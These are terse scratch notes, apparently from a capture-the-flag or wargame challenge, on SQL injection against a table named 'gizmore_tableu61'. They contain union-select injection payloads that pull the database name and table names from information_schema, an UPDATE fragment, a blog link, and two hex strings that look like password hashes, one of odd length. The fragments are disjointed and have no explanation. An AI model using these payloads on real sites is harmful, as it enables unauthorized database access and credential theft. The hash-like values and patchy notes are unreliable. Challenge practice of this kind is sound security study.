 `barack\'`=`barack\'`+1 WHERE id=1

LauranceKuo fxxxx2xx

http://blog.csdn.net/qq_19876131/article/details/50594894


table names
' and 1=2 union select 1,2,database()#
' and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="gizmore_tableu61"#

gizmore_tableu61_usertableus4

3C3CBEB0C8ADC66F2922C65E7784BE14
132BDB1418331E4C1D227740BF63690D1

